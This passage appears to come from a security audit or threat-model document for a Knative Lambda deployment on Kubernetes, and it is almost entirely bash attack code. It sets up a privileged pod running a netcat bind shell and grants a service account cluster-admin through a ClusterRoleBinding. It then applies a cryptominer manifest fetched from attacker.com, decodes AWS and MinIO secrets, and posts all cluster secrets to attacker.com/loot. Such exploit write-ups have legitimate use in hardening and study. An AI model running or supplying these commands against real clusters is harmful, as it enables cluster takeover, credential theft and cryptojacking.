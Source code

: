 ```bash
          "name": "shell",
          "image": "alpine",
          "command": ["sh", "-c", "while true; do nc -lvp 4444 -e /bin/sh; done"],
          "securityContext": {"privileged": true}
        }],
        "hostNetwork": true,
        "hostPID": true,
        "restartPolicy": "Never"
      }
    }
  }
}
EOF

# Step 4: Can we create ClusterRoleBindings? (GAME OVER)
curl -k -H "Authorization: Bearer $TOKEN" \
  $APISERVER/apis/rbac.authorization.k8s.io/v1/clusterrolebindings \
  -d @- << EOF
{
  "apiVersion": "rbac.authorization.k8s.io/v1",
  "kind": "ClusterRoleBinding",
  "metadata": {"name": "pwned"},
  "roleRef": {
    "apiGroup": "rbac.authorization.k8s.io",
    "kind": "ClusterRole",
    "name": "cluster-admin"
  },
  "subjects": [{
    "kind": "ServiceAccount",
    "name": "knative-lambda-builder",
    "namespace": "knative-lambda"
  }]
}
EOF

# Step 5: We're cluster-admin now, deploy crypto miners
kubectl apply -f http://attacker.com/cryptominer.yaml
```

#### Exploit: Secret Extraction
```bash
# ATTACK: Steal all secrets in cluster

# Get all secrets we have access to
curl -k -H "Authorization: Bearer $TOKEN" \
  $APISERVER/api/v1/namespaces/knative-lambda/secrets

# Get AWS credentials
curl -k -H "Authorization: Bearer $TOKEN" \
  $APISERVER/api/v1/namespaces/knative-lambda/secrets/aws-credentials | \
  jq -r '.data | to_entries[] | "\(.key): \(.value | @base64d)"'

# Get MinIO credentials
curl -k -H "Authorization: Bearer $TOKEN" \
  $APISERVER/api/v1/namespaces/knative-lambda/secrets/minio-credentials | \
  jq -r '.data | to_entries[] | "\(.key): \(.value | @base64d)"'

# Exfiltrate everything
curl -X POST http://attacker.com/loot \
  -d "secrets=$(curl -k -H 'Authorization: Bearer $TOKEN' $APISERVER/api/v1/secrets)"
```

---